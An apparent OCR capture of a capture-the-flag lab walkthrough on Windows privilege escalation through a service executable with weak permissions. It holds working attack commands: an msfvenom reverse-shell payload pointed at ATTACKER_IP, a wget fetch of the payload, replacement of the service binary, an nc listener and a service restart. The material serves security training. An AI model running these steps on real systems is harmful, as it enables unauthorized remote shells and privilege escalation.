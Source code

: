 Command Prompt
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. 
This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

Let's generate an exe-service payload using msfvenom and serve it through a python webserver:

Kali
Linux
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
We can then pull the payload from Powershell with the following command:

Powershell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:

Command Prompt
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
We start a reverse listener on our attacker machine:

Kali
Linux
user@attackerpc$ nc -lvp 4445
And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:

Command Prompt
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
Note: PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.
